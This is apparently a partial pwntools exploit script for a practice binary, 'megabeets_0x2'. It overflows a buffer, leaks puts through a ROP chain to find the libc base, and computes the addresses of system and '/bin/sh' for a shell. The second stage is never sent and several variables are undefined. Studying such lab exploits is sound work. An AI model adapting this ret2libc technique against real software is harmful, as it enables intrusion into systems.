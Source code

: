# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    
    p.clean()
    
    # Calculate libc base

    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    exit_addr = libc_base  + offset_exit

    log.info("system: 0x%x" % system_addr)
    log.info("binsh: 0x%x" % binsh_addr)
    log.info("exit: 0x%x" % exit_addr)

if __name__ == "__main__":
    main()</pre>
          